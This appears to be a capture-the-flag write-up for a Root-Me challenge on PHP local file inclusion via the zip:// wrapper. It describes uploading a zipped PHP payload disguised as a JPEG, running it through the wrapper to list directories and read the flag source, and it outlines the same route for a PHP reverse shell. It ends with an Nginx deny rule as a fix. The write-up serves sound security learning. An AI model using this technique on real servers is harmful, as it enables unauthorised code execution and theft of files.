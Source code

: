 # Local-File-Inclusion: Wrappers
### 1. Recon

![image](https://user-images.githubusercontent.com/106916011/179256914-37030c33-4e06-4db5-8c48-f33b7af78912.png)

Here, the website provide a Image upload to user, so I will upload a jpeg file for testing.
After processing successfully, The image is embedded into the surface of the website. Use view-source to see how it embedded

![image](https://user-images.githubusercontent.com/106916011/179350737-604a09e6-6848-4e01-a7aa-9b5a19142e97.png)

Now, because I got a hint "Wrappers" and this image upload function then I'm gotta look up a Wrapper relating to a file handler.
The outcome is Wrapper zip:// which is satisfied my condition. The zip wrapper processes uploaded .zip files server side allowing the upload of a zip file using a vulnerable file function exploitation of the zip filter via an LFI to execute. A typical attack example would look like:
1. Create a PHP reverse shell
2. Compress to a .zip file
3. Upload the compressed shell payload to the server
4. Use the zip wrapper to extract the payload using: php?page=zip://path/to/file.zip%23shell
5. The above will extract the zip file to shell, if the server does not append .php rename it to shell.php instead

To confirm if PHP ZIP Wrapper is available on this website, I send a random payload:
```powershell
http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://shell.jpg%23payload
```
And server sends back a response 

![image](https://user-images.githubusercontent.com/106916011/179352866-9c40ae61-22fd-43ee-ad5a-44350fcc73fa.png)

not any errors about zip:// is not supported so it is worth trying.

### 2. Exploit
creating a php file to scan every directory.
```powershell
<?php
$path = getcwd();
$items = scandir($path);

echo "<p>Content of $path</p>";
echo '<ul>';
foreach ($items as $item) {
    echo '<li>' . $item . '</li>';
}
echo '</ul>';
?> 
```
I zip it and rename to .JPG (the php:zip:// wrapper does not require the zip file to have any specific extension) then upload to server via image upload function.
appending its source dir to our payload, and there is my payload:
```powershell
http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/jNDpWhjlA.jpg%23a
```

Here, it work very well

![image](https://user-images.githubusercontent.com/106916011/179353937-f587357a-49ee-4e0c-9e76-a72f15039e18.png)

Next, I need to read source of flag-mipkBswUppqwXlq9ZydO.php. Repeat process with reading source php script, I get my challange successful.

![image](https://user-images.githubusercontent.com/106916011/179354098-b4dea985-6db0-4d64-99cd-85ed5736bf46.png)

### 3. Prevention
Disallowing execution of PHP files in the image upload directory. There is one way to do this is modify Nginx.conf to something like this:
```powershell
location ~* /tmp/upload/.*.php$ {
	deny all;
}
```

